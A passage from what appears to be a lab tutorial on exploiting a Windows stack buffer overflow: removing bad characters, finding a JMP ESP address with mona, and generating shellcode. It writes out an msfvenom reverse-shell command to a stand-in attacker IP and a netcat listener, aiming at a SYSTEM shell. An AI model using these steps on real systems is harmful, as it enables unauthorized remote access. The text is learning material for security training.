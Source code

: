 The bad chars found are ``
From this list, I decided to remove only `` as they are the first of their series
5. Remove the bad chars from the payload (I helped myself with the find and replace function of atom)  
Copy the payload and save to a file named badchars, inside that file look for each bad char, and remove all of them. Then recopy the new badchars list to the payload.
6. Create a new bytearray by providing the new bad chars too
7. Reopen the app in ImmunityDebugger
8. Relaunch the exploit
9. Repeat the process until the mona output is "Unmodified"

So, it confirms that the badchars are
# 4. Find a valid RETN address
With the knowledge of the bad chars, the next step is finding a valid return address.
> For this task, the exe could be either running or in a crashed state.

The steps are:
1. From ImmunityDebugger, launch the mona command by providing all the bad chars found:
`!mona jmp -r esp -cpb "<whole bad chars list>"`
The following is a list of compliant addresses, choose one of them

2. Note that as the system is 32 bit, its endianness is little, so to make use of the chosen address, you need to revert it as follow:
`00012e3c ---> 3c2e0100`
3. Add the backslash and x to each part of the address, then put it inside the retn variable in the exploit code.

# 5. Generating the shellcode
A stack BOF vulnerability works at a low level, so putting high level code inside the payload won't work. This is the reason a shellcode is needed.

Steps to follow:
1. To generate one, use msfvenom capabilities with the following command, and give to it all the bad chars too:
`msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKING_IP LPORT=LISTENING_PORT EXITFUNC=thread -b "\x00" -f c`
Instead of ATTACKING_IP and LISTENING_PORT put respectively the IP where you want to get a connection back, and the port where you set up the listener.
> `EXITFUNC`, if not provided, the shellcode will cause the crash of the program. We don't want that as we need it to run. So we define a way to handle it by telling it to exit on thread.
2. Put the generated shell code inside the payload as follow
3. Insert **at least** 16 `NOP` codes "\x90" in the `padding` variable. They'll let the shellcode to have enough space to unpack itself.
4. Start the listener with rlwrap (optional) and netcat using the following command
`rlwrap nc -lvnp LISTENING_PORT`
5. With the application running in the ImmunityDebugger, launch the exploit
6. After a few seconds, a connection should hit the listener and prompt an interactive shell from the debugging machine with `NT AUTHORITY\SYSTEM` privileges.

At this point, close the listener and reopen it, then launch the same exploit code against the target.